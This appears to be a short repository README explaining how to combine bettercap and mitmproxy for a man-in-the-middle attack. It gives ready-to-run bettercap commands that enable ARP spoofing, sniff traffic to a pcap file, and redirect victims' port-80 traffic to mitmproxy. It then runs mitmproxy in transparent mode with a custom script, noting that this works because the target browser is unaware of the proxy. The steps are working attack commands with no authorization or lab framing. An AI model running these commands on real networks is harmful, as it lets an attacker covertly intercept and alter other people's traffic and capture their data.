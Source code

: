 How to set up mitmproxy with bettercap
======================================
Step 1: make sure desired port is unused (8080 in this context)
-----------------------------------------------
- mitmproxy will listen on this port

Step 2: run bettercap with following commands:
----------------------------------------------
```bettercap
set net.sniff.verbose true;
set net.sniff.output [FILENAME.pcap];
set arp.spoof.fullduplex true;
set arp.spoof internal true;
net.recon on;
net.probe on;
net.sniff on;
arp.spoof on;
```
- this will activate modules to let the arp.spoof module function
- after stopping the module net.sniff with ```net.sniff off```, it will write the traffic in FILENAME.pcap

Step 3: let bettercap redirect traffic to mitmproxy
---------------------------------------------------
```bettercap
set arp.proxy.dst_port 8080;
set arp.proxy.src_port 80;
arp.proxy on
```

Step 4: run mitmproxy with following code:
------------------------------------------
```bash
sudo mitmproxy --mode transparent -p 8080 -s [SCRIPT.py]
```
* mitmproxy has to run in transparent mode because target browser is unaware of the proxy
    * normally, the browser knows if mitmproxy is listening and this requires manual setup on the browser side
    * transparent mode goes under the assumption that the browser isn't aware of it listening (necessary for intercepting)
* -s SCRIPT.py tells mitmproxy which python script to use
